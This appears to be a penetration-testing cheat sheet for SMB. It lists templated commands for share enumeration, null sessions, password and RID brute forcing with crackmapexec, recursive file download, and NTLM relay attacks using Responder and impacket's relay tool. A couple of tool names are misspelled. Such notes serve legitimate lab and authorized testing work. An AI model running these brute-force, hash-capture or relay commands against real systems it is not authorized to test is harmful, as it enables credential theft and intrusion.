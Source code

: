 ```yaml
---
icon: database
description: Server Message Block
---
```


# SMB

## <mark style="color:purple;">Enumeration</mark>

{% tabs %}
{% tab title="smbclient" %}
{% code title="Without Credentials" %}
```
smbclient --no-pass //IP/<Share>
```
{% endcode %}

{% code title="Connect to share" %}
```bash
smbclient -N \\\\IP\Share
```
{% endcode %}

{% code title="List Resource list" %}
```bash
smbclient -L <IP>
```
{% endcode %}

{% code title="List Null session" %}
```
smbclient -N <IP>
```
{% endcode %}

{% code title="List Share" %}
```bash
smbclient //IP/<SHARE> -U <USER>
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code title="Connect to Host" %}
```
smbmap -H <IP>
```
{% endcode %}

{% code title="Connect with credentials" %}
```bash
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'
```
{% endcode %}

{% code title="List Share" %}
```
smbmap -H <IP> -r <SHARE>
```
{% endcode %}
{% endtab %}

{% tab title="crackmapexec" %}
{% code title="Connect to host" %}
```bash
crackmapexec smb <IP>
```
{% endcode %}

{% code title="List shares" %}
```bash
crackmapexec smb <IP> -u '' -p '' --shares
```
{% endcode %}

{% code title="Full Enumeration" %}
```bash
crackmapexec smb <IP> -u <username> -p <password> --allinfo
```
{% endcode %}

{% code title="Bruteforce" %}
```bash
cracmapexec smb <IP> -u usernames -p passwords
```
{% endcode %}

{% code title="Brutefoce RID" %}
```bash
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute
```
{% endcode %}

{% code title="Deep Enumeration" %}
```bash
crackmapexec smb <IP> -u usernames -p passwords --continue-on-success
```
{% endcode %}

{% code title="RMU (Remote Management User)" %}
```bash
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```
{% endcode %}
{% endtab %}

{% tab title="impacket" %}
{% code title="Connect to server" %}
```bash
impacket-smbclient <IP>/user:password@address
```
{% endcode %}
{% endtab %}

{% tab title="smbget" %}
{% code title="Download file" %}
```bash
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```
{% endcode %}
{% endtab %}

{% tab title="Metasploit" %}
{% code title="Select the module" %}
```bash
use auxiliary/scanner/smb/smb_enumshares
```
{% endcode %}

{% code title="Set target" %}
```bash
set RHOSTS <target_ip>
```
{% endcode %}

{% code title="Execute" %}
```bash
run
```
{% endcode %}
{% endtab %}
{% endtabs %}

***

## &#x20;<mark style="color:purple;">To download files type this sequence of commands:</mark>

{% stepper %}
{% step %}
### <mark style="color:orange;">`recurse`</mark>
{% endstep %}

{% step %}
### <mark style="color:orange;">`prompt`</mark>
{% endstep %}

{% step %}
### <mark style="color:orange;">`mget *`</mark>
{% endstep %}
{% endstepper %}

***

{% hint style="danger" %}
## <mark style="color:purple;">NTLM Relay Attacks</mark>

{% code title="Capture the Hash" %}
```bash
responder -I eth0 -dwv
```
{% endcode %}

{% code title="Relay the hash" %}
```bash
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>
```
{% endcode %}
{% endhint %}
